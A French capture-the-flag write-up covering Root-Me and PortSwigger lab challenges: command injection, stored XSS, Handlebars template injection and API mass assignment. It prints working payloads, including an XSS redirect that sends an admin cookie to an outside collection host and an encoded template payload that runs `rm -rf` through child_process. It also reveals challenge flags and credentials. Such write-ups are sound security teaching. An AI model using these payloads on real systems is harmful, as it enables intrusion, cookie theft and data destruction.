La commande `ping` est exécutée sans filtrage des entrées.\
En injectant un retour à la ligne via `%0A`, on peut exécuter des commandes supplémentaires.\
Dans notre cas, on a utilisé `curl` pour exfiltrer les fichiers `index.php` et `.passwd` vers un serveur contrôlé (interactsh).

### Recommandations

- Valider et assainir les entrées utilisateur
- Utiliser des listes blanches pour les entrées attendues (ex : adresses IP)
- Éviter d'exécuter des commandes système avec des entrées utilisateur
- Mettre en place une surveillance des commandes exécutées pour détecter les activités suspectes

### Références

[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

<br />
<hr style="height: 0; border: 1px white solid;" />
<br />

## XSS - Stockée 2
[Retour sommaire](#Sommaire)

[https://www.root-me.org/fr/Challenges/Web-Client/XSS-Stockee-2](https://www.root-me.org/fr/Challenges/Web-Client/XSS-Stockee-2)

### Étapes

Essayer de mettre des scripts grâce à payload all the thing dans le texte de contact ne marche pas.\
On a un status en haut a droite "invite". Comme le chall dit de voler un cookie.\
Ouvrir les cookies dans le navigateur et regarder le cookie status=invite.\
Mais le changer par admin ne donne pas plus de droit

1. Ouvrir l'inspecteur, et constater le span avec la class admin

  ```html
  <span><b>test</b>&nbsp;(<i class="admin">status : admin</i>)</span><br/><span>test</span><br/><hr/>
  ```

2. Injecter cette payload :

  ```html
  "><script>console.log('XSS')</script>
  ```

  Grâce à un serveur temporaire sur https://app.interactsh.com/#/ et une nouvelle payload :

  ```html
  "><script>
    window.location.href="http://hncvjxsvmdrftyrhlpzm4wzqy5sohi4el.oast.fun"
  </script>
  ```

3. Récupérer la requete sur le serveur :

  ```txt
  GET /?c=%22status=invite;%20ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F%22 HTTP/1.1
  Host: hncvjxsvmdrftyrhlpzm574z3js3wvjt1.oast.fun
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Accept-Encoding: gzip, deflate
  Accept-Language: fr
  Connection: keep-alive
  Referer: http://challenge01.root-me.org/
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/93.0.4577.0 Safari/537.36
  ```

4. Ajouter le cookie admin pour se connecter a l'espace admin :

Mot de passe : E5HKEGyCXQVsYaehaqeJs0AfV

### Explication

Le champ de saisie n'est pas correctement assaini, permettant l'injection de code JavaScript malveillant.

### Recommandations

- Assainir et échapper les entrées utilisateur avant de les afficher

### Références

[https://portswigger.net/web-security/cross-site-scripting/preventing#validate-input-on-arrival](https://portswigger.net/web-security/cross-site-scripting/preventing#validate-input-on-arrival)

<br />
<hr style="height: 0; border: 1px white solid;" />
<br />

## Server-side template injection in an unknown language with a documented exploit
[Retour sommaire](#Sommaire)

[https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

### Étapes

1. On ouvre le chall, on teste les boutons visiter


2. On voit en cliquant sur un des boutons, on a un message qui s'affiche, et qui est dans l'url


3. Grâce au cours, on teste `{{7*7}}` à la place du message


4. On voit maintenant cette erreur : `/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267`.\
  On sait donc que le moteur de template est `handlebars`.


5. On cherche un payload sur internet: [https://gist.github.com/laztname/cccacb1967d15b92ba624f0874909b4c/revisions](https://gist.github.com/laztname/cccacb1967d15b92ba624f0874909b4c/revisions)


6. On change la commande par 'id' pour test, mais la payload ne marche pas.


7. Après une longue recherche, on se rend compte qu'il faut enlever "process.mainModule."\
  On teste donc avec la payload encodée :

  ```txt
  %0A%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0A%7B%7B%23with%20%22e%22%7D%7D%0A%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0A%7B%7Bthis.pop%7D%7D%0A%7B%7Bthis.push%20%28lookup%20string.sub%20%22constructor%22%29%7D%7D%0A%7B%7Bthis.pop%7D%7D%0A%7B%7B%23with%20string.split%20as%20%7Ccodelist%7C%7D%7D%0A%7B%7Bthis.pop%7D%7D%0A%7B%7Bthis.push%20%22return%20require%28%27child_process%27%29.execSync%28%27id%27%29%3B%22%7D%7D%0A%7B%7Bthis.pop%7D%7D%0A%7B%7B%23each%20conslist%7D%7D%0A%7B%7B%23with%20%28string.sub.apply%200%20codelist%29%7D%7D%0A%7B%7Bthis%7D%7D%0A%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Feach%7D%7D%0A%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D
  ```

Ça marche et id fonctionne, donc on met la commande `rm -rf /home/carlos/morale.txt` dans la payload :

```txt
%0A%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0A%7B%7B%23with%20%22e%22%7D%7D%0A%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0A%7B%7Bthis.pop%7D%7D%0A%7B%7Bthis.push%20%28lookup%20string.sub%20%22constructor%22%29%7D%7D%0A%7B%7Bthis.pop%7D%7D%0A%7B%7B%23with%20string.split%20as%20%7Ccodelist%7C%7D%7D%0A%7B%7Bthis.pop%7D%7D%0A%7B%7Bthis.push%20%22return%20require%28%27child_process%27%29.execSync%28%27rm%20-rf%20%2Fhome%2Fcarlos%2Fmorale.txt%27%29%3B%22%7D%7D%0A%7B%7Bthis.pop%7D%7D%0A%7B%7B%23each%20conslist%7D%7D%0A%7B%7B%23with%20%28string.sub.apply%200%20codelist%29%7D%7D%0A%7B%7Bthis%7D%7D%0A%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Feach%7D%7D%0A%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D
```

**Challenge réussi**

### Explication

Le moteur de template Handlebars permet l'exécution de code arbitraire via des expressions malveillantes.
En exploitant cette vulnérabilité, un attaquant peut exécuter des commandes système.

### Recommandations

- Valider et assainir les entrées utilisateur utilisées dans les templates
- Utiliser des moteurs de template sécurisés qui limitent l'exécution de code arbitraire

### Références

[https://portswigger.net/web-security/server-side-template-injection/exploiting#exploiting-server-side-template-injection-in-unknown-languages-with-documented-exploits](https://portswigger.net/web-security/server-side-template-injection/exploiting#exploiting-server-side-template-injection-in-unknown-languages-with-documented-exploits)

<br />
<hr style="height: 0; border: 1px white solid;" />
<br />

## API - Mass Assignment
[Retour sommaire](#Sommaire)

[https://www.root-me.org/fr/Challenges/Web-Serveur/API-Mass-Assignment](https://www.root-me.org/fr/Challenges/Web-Serveur/API-Mass-Assignment)

### Étapes

1. Register puis login, on va get le user


2. On récupère des données JSON : `{"note":"","guest":"admin","userid":7,"username":"attacker"}`

On peut update les notes. Test suivant : Update la payload en mettant "status": "admin". Ça ne marche pas.

Grâce à https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Mass%20Assignment#references, on peut se dire que le dev a laissé les cruds par défaut

3. Donc on fait une request PUT sur /user et ça met à jour le user :

`{"note":"admin","status":"admin","userid":7,"username":"attacker"}`

Résultat :

```json
{
  "message": "Hello admin, here is the flag : RM{4lw4yS_ch3ck_0pt10ns_m3th0d}."
}
```

### Explication

Le serveur accepte des propriétés non prévues dans les objets JSON, permettant à un attaquant de modifier des données sensibles.

### Recommandations

- Restreindre les propriétés acceptées dans les objets JSON
- Utiliser des listes blanches pour les champs modifiables

### Références

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Mass%20Assignment#references](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Mass%20Assignment#references)
